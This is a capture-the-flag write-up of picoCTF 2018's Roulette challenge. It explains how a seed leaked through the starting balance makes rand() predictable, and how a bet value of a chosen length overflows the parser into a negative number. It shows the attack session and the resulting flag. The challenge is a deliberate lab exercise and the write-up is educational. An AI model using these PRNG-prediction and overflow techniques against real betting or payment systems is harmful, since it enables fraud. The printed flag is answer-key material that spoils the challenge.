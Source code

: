 # Roulette
## Problem Statement
This Online Roulette Service is in Beta. Can you find a way to win $1,000,000,000 and get the flag? [Source](https://2018shell.picoctf.com/static/99e25c3aa326727c36a60045af958d02/auth.c). Connect with nc 2018shell.picoctf.com 25443. Hint: There are 2 bugs! 

## Solution
Looking at the source code for this problem two thing stands out,
1. The indentation is vomit inducing
2. The spins aren't cryptographically secure

Line 166 decides the spin,
```C
printf("Spinning the Roulette for a chance to win $%lu!\n", 2*bet);
long spin = (rand() % ROULETTE_SIZE)+1;
```
Here rand() is used which according to http://www.cplusplus.com/reference/cstdlib/rand/ is
> Returns a pseudo-random integral number in the range between 0 and RAND_MAX.
> This algorithm uses a seed to generate the series, which should be initialized to some distinctive value using function srand.

That means we should be looking for an srand, which we indeed find in line 52
```C
long get_rand() {
  long seed;
  FILE *f = fopen("/dev/urandom", "r");
  fread(&seed, sizeof(seed), 1, f);
  fclose(f);
  seed = seed % 5000;
  if (seed < 0) seed = seed * -1;
  srand(seed);
  return seed;
}
```

get_rand() is called in line 185
```C
cash = get_rand();
```

Aha! We have found the first bug. The seed is the starting cash value. Using the script "notRandom.c" and inputing the starting cash value will give us the value of every spin. We have to remember to take into account the fact a message is chosen randomly in line 172 `puts(win_msgs[rand()%NUM_WIN_MSGS]);` which means every second random value is the spin.

We cannot win only knowing this however, the program stops after 16 wins and given the max start value is 5000 we need at least 19 wins.

Looking through the code we find the fishy functions:
```C
int is_digit(char c) {
    return '0' <= c && c <= '9';
}

long get_long() {
    printf("> ");
    uint64_t l = 0;
    char c = 0;
    while(!is_digit(c))
      c = getchar();
    while(is_digit(c)) {
      if(l >= LONG_MAX) {
	      l = LONG_MAX;
      	break;
      }
      l *= 10;
      l += c - '0';
      c = getchar();
    }
    while(c != '\n')
      c = getchar();
    return l;
}
```
instead of a simple fgets() this function uses a wierdly complicated checking system.
This function is called in line 60 `long bet = get_long();` it takes the value we input and sets it to the bet.

This function reads only digits and stops when the digits stop appearing. It is also impossible to input a number longer than LONG_MAX because of the check which means no integer overflow. 

At first I thought the bug had something to do with the getchar() function, but then I realised that the check to stop an integer overflow happens after variable l changes. Boom! We have found the second bug. By inputing a number the same length as LONG_MAX but is infact larger we can easily overflow the integer and return a negative number.

This is useful because a negative number would pass the check on line 61:
```C
if(bet <= cash) {
  return bet;
} else {
  puts("You can't bet more than you have!");
}
```
and would be able to increase the money we have on line 195 `cash -= bet;` all we have to do is lose, and our cash would stay at its increased value.

The problem with this however is that we need to have 3 games before or else we are denied the flag. This is where bug 1 comes in handy.

Combining the two bugs by winning three times in the beginning then betting a value like 3147483647 would result in when running the script with the starting value and betting correctly
```
supermac30@Mark-Laptop:~/cStuff$ ./breakRoulette
1215
bet: 13
bet: 33
bet: 11
don't bet: 9
```
```
Welcome to ONLINE ROULETTE!
Here, have $1215 to start on the house! You'll lose it all anyways >:)

How much will you wager?
Current Balance: $1215   Current Wins: 0
> 1
Choose a number (1-36)
> 13

Spinning the Roulette for a chance to win $2!

Roulette  :  13

Wow.. Nice One!

How much will you wager?
Current Balance: $1216   Current Wins: 1
> 1
Choose a number (1-36)
> 33

Spinning the Roulette for a chance to win $2!

Roulette  :  33

Darn, you got it right.

How much will you wager?
Current Balance: $1217   Current Wins: 2
> 1
Choose a number (1-36)
> 11

Spinning the Roulette for a chance to win $2!

Roulette  :  11

Congrats!

How much will you wager?
Current Balance: $1218   Current Wins: 3
> 3147483647
Choose a number (1-36)
> 8

Spinning the Roulette for a chance to win $1999999998!

Roulette  :  9

Nice try..
If you keep it up, maybe you'll get the flag in 100000000000 years

*** Current Balance: $1147484867 ***
Wow, I can't believe you did it.. You deserve this flag!
picoCTF{1_h0p3_y0u_f0uNd_b0tH_bUg5_8b7aef91}
```
